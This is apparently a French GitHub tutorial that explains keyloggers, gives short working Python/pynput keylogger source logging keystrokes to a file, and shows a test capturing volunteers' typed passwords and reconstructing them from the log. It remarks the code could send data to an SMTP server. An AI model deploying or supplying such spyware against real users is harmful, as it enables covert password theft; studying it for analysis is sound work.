 <h2 align="center">Qu'est ce qu'un Keylogger ?</h2>

<p>
un Keylogger est un logiciel permettant d'enregistrer les frappes faites au clavier. 
Ce malware rentre dans la catégorie des spywares. 
</p>

<h2 align="center">A quoi sert t-il ?</h2>

<p>
Ce spyware permet de connaitre les touches frappées par l'utilisateur. 
En renconstituant l'arborescence, on peut déterminer des mots de passes, des sites webs consultés ... 

</p>

<h4>Exemple :</h4>
<p>
facebookmonadressemail@mail.comPassw0rd1 

En décomposant cette liste, on peut déterminer que l'utilisateur c'est rendu sur Facebook,
à comme adresse mail : adressemail@mail.com et comme mot de passe : Passw0rd1.
</p>

<h3 align="center">Création d'un Keylogger</h3>

<p> 
Nous allons avoir besoin de plusieurs choses.
</p>

<ul>
    <li>Un éditeur de texte.</li>
    <li>Pyton3 d'installé sur notre machine.</li>
    <li>La librairie pynput installée</li>
</ul>

<p>
Pour installer la librairie pynput :
</p>

```python  

pip install pynput

```

<p>
Voici le code que j'ai réaliser permettant d'enregistrer chaque frappe dans un fichier .txt. 
Il est possible de modifier ce code pour envoyer les informations vers un serveur SMTP ou autre.

Mon objectif est juste d'analyser le comportement d'un keylogger 
</p>

<h3 align="center">Le code Python</h3>

```python
from pynput.keyboard import Listener #Import de la librairie
import logging

file="DataKey.txt" #fichier dans lequel va être enregistrer les frappes
logging.basicConfig(filename=file, level=logging.DEBUG, format="%(message)s") #les informations que l'on souhaite récupérer lors de la frappe.

def on_press(key): #fonction qui récupère les touches frapper par l'utilisateur. 
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()

```

<h3 align="center">Test grandeur nature</h3>


<p>
Pour la seconde partie, je n'ai pas converti le programme en .exe ou essayer de l'obfusquer.
J'ai créé la maquette d'un site web contenant un form. 

J'ai demandé à plusieurs personnes de rentrer un mot de passe. 
</p>

![Formulaire](https://user-images.githubusercontent.com/96829109/188643428-eded0ff1-f9e4-4acb-8b92-4345f0b35001.PNG)

<p>
Pour valider le bon fonctionnement du site web, j'ai vérifier les données enregistrer par le keylogger. 
</p>

```
Key.shift
'P'
'a'
's'
's'
'w'
'o'
'r'
'd'
<97>
```

![Capture](https://user-images.githubusercontent.com/96829109/196785889-63e88f16-ab89-40ba-a295-06365daf1680.PNG)

<p>
On peut comprendre que une ou plusieurs lettres sont en majuscules car la touche Shift a été pressée.

De plus, à la fin nous avons un chiffre '97'. Cela ne correspond pas au password.

Pour cela, j'ai du effectuer un tableau pour obtenir une concordance.

<table>
    <tr>
      <td>0</td>
      <td>1</td>
      <td>2</td>
      <td>3</td>
      <td>4</td>
      <td>5</td>
      <td>6</td>
      <td>7</td>
      <td>8</td>
      <td>9</td>
    </tr>
    <tr>
      <td>96</td>
      <td>97</td>
      <td>98</td>
      <td>99</td>
      <td>100</td>
      <td>101</td>
      <td>102</td>
      <td>103</td>
      <td>104</td>
      <td>105</td>
    </tr>
</table>

<p>
Le mot de passe contient à 1 à la fin. Il ne reste plus qu'à tester quels sont les lettres en majuscules. 
</p>
